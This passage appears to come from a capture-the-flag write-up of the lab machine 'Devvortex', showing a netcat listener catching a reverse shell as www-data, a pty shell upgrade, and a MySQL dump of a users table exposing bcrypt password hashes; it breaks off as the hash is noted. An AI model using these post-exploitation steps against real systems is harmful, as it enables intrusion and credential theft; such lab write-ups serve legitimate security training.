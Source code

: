 We got a shell!

```bash
nc -lvnp 1234     
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.242] 35828
sh: 0: can't access tty; job control turned off
$ whoami
www-data

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We will immediately try to tinker with mysql:

```bash
www-data@devvortex:/$ mysql -u lewis -p
Enter password:

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2025-08-10 11:05:12 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

We have bcrypt hash for logan:
